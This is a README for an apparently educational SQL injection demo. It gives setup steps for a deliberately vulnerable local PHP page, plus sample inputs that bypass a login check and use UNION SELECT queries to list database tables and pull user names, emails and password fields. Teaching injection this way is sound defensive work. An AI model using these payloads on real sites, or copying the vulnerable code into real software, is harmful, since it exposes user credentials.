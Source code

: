 ## SQL Injection
SQL injection is a code injection technique that might destroy your database.

SQL injection is one of the most common web hacking techniques.

SQL injection is the placement of malicious code in SQL statements, via web page input.

## SQL Injection Example Code

[![license](http://img.shields.io/badge/license-MIT-red.svg?style=flat)](https://raw.githubusercontent.com/fritz-c/sql-injection-demo/master/LICENSE)

### IMPORTANT: Do not place this code on a server that can be accessed by others.

To get things up and running:

* Create a database in MySQL, and edit these lines in `bad-inj-show.php` to match:
```php
$dsn = 'mysql:dbname=my_dbname;host=127.0.0.1';
$user = 'my_user';
$password = 'my_password';
```
* Insert the my_users table from the `db_dump.sql` file with a command like this:
```sh
$ mysql -u my_user -pmy_password my_db_name < db_dump.sql
```

* Host the code locally using something like [MAMP](http://www.mamp.info/en/) or [XAMPP](https://www.apachefriends.org/index.html).

* Navigate to the `bad-inj.php` page in your browser and play around with the form.

Here are some examples of some input to try:

```
ed@example.com

a" OR 1 = 1 -- 

a" UNION ALL SELECT TABLE_SCHEMA,TABLE_NAME from information_schema.TABLES; -- 

a" UNION ALL SELECT COLUMN_NAME,COLUMN_TYPE from information_schema.COLUMNS where TABLE_NAME = "my_users"; -- 

a" UNION ALL SELECT user_login,user_pass from my_users; -- 

a" UNION ALL SELECT user_email,user_pass from my_users; -- 
```

And I think it goes without saying, use this knowledge for learning how to protect yourself, and for the greater good ;)
